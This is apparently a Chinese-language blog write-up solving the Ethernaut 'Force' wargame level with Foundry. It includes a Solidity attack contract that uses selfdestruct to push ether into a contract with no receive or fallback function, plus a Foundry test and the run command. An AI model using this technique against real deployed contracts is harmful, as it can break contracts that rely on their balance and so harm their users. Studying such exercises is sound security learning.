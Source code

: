 # Foundry 通关 Ethernaut（6）— Force

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

使合约的余额大于0

## 漏洞合约

先来看漏洞合约本身：

这个合约只有一个合约结构，什么逻辑都没有，既没有 receive，也没有 fallback

（整体概括而言就是拒绝合作哈哈哈）

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\\_/\\   /
    ____/ o o \\
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

## 思路

由于这个合约没有函数逻辑，那么怎么向合约强制转账呢？

这里可以用到 selfdestruct 的逻辑，这相当于一个自毁的特性

```solidity
selfdestruct(addr); 
```

这行代码可以销毁当前合约并向指定地址强制转账合约剩余的余额，类似于一个紧急避险的逻辑

因此，我们可以给一个攻击合约存款，然后通过 seledestruct 注入目标合约，使其余额增加

## foundry 复现

### 1. 攻击合约

```solidity
contract Attack{
    address public ForceContract;

    constructor(address _address){
        // 目标合约地址
        ForceContract =  _address;
    }
    
    // 存款并自毁
    function attack() public payable{
        selfdestruct(payable(ForceContract));
    }
}
```

### 2. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {Force,Attack} from "../src/Force.sol";

contract ForceTest is Test {
    Force public force;
    Attack public attackContract;

    function setUp() external {
        force = new Force();
        attackContract = new Attack(address(force));
    }

    function test_attack() public {
        console.log("before",address(force).balance);
        attackContract.attack{value: 1 ether}();
        console.log("after",address(force).balance);
    }
}
```

### 2. 测试

终端输入

```solidity
forge test --match-path test/Force.t.sol -vvvv
```

![image-20240905173228411](../pict/image-20240905173228411.png)

我们可以看到，攻击后，Force合约余额增加

